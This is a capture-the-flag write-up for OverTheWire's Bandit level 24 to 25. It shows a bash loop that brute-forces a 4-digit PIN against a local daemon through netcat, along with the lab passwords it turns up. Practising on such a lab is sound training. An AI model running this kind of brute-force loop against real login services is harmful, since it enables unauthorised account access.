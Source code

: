 <h1 align="center">
Bandit Level 24 → Level 25
</h1>

<p align="center">
  <a href="#Level-Goal">Level Goal</a>   |   
  <a href="#Lets-try">Let's try</a>   |
  <a href="#Solution">Solution</a> 
</p>

## Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.


## Let's try
We need to go through all 10000 sets to find the password. This is madness
We can simply use what we have previously learned to write a script allowing us to enter and test all the 10000  combinations to find a password.
As we already learned .. We will use tmp directory
let us try

````
bandit24@bandit:~$ mkdir /tmp/pswd
bandit24@bandit:~$ cd /tmp/pswd
bandit24@bandit:/tmp/pswd$ vim script.sh
````
It seems that a simple loop will help us
````

#!/bin/bash                                                                                                                                                        
  2 password=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
  3  
  4 for pin in {0000..9999};
  5 do
  6     echo "$password $pin" 
  7 done
````
don't forget permissions 
````
bandit24@bandit:/tmp/pswd$ chmod a+x script.sh
bandit24@bandit:/tmp/pswd$ ./script.sh | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
.
.
.
.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
````
## Solution 
````
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
````

